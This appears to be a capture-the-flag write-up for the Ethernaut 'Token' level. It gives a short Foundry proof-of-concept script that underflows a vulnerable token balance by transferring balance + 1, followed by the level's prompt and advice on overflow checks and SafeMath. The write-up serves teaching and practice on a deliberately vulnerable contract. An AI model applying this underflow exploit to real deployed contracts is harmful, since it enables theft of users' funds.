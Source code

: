 ```yaml
---
title: Token
weight: 6
type: docs
next: delegation
prev: telephone
---
```


[Level5](https://ethernaut.openzeppelin.com/level/5) - ⭐⭐

---

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Token {
  function transfer(address _to, uint _value) external returns (bool);

  function balanceOf(address _owner) external view returns (uint balance);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_05");
        address publicKey = vm.envAddress("PUBLIC_KEY");

        vm.startBroadcast(deployerPrivateKey);
        Token token = Token(addr);
        uint balance = token.balanceOf(publicKey);
        console.logUint(balance);
        token.transfer(address(0), balance + 1);
        balance = token.balanceOf(publicKey);
        console.logUint(balance);

        vm.stopBroadcast();
    }
}
```

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if
you somehow manage to get your hands on any additional tokens.
Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

Overflows are very common in solidity and must be checked for with control statements such as:

```
if(a + c > a) {
  a = a + c;
}

```

An easier alternative is to use OpenZeppelin's SafeMath library that
automatically checks for overflows in all the mathematical operators.
The resulting code looks like this:

```
a = a.add(c);

```

If there is an overflow, the code will revert.

